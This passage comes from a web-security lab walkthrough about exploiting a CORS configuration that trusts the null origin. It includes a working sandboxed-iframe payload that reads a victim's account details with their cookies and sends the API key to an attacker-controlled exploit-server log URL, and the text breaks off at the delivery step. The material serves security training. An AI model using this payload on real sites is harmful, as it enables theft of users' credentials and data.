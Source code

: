 - **Go to the Exploit Server**:
  
  In the lab environment, navigate to the **exploit server** provided for testing. This server allows you to host malicious HTML/JavaScript code.

- **Enter the Malicious HTML Code**:
  
  Paste the following HTML code into the exploit server's input field. Replace `YOUR-LAB-ID` with the unique URL of your lab instance and `YOUR-EXPLOIT-SERVER-ID` with the ID of your exploit server:

  ```html
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+this.responseText;
      };
  </script>"></iframe>
  ```

  **Explanation of the Code**:
  
  - The `<iframe>` element uses the `sandbox` attribute to create a restricted environment. This generates a `null` origin for the request.
  - Inside the iframe, JavaScript makes an AJAX request (`XMLHttpRequest`) to the `/accountDetails` endpoint of the target application.
  - The `withCredentials = true` setting ensures that cookies (and thus the victim's session) are included in the request.
  - When the response is received, the `reqListener` function redirects the browser to the exploit server's `/log` endpoint, appending the victim's API key (or other sensitive data) as a query parameter in the URL.

#### **4. Testing the Exploit**

- **View the Exploit**:
  
  Click the **"View exploit"** button on the exploit server. This simulates a victim visiting the malicious page.

- **Observe the Result**:
  
  After viewing the exploit, you should be redirected to the `/log` page on the exploit server. Check the URL of the page—it should now include the victim's API key as part of the query string. For example:
  
  ```
  https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=VICTIM_API_KEY
  ```
  
  This confirms that the exploit successfully retrieved the victim's sensitive data.

#### **5. Delivering the Exploit to the Victim**

- **Deliver the Exploit**:
  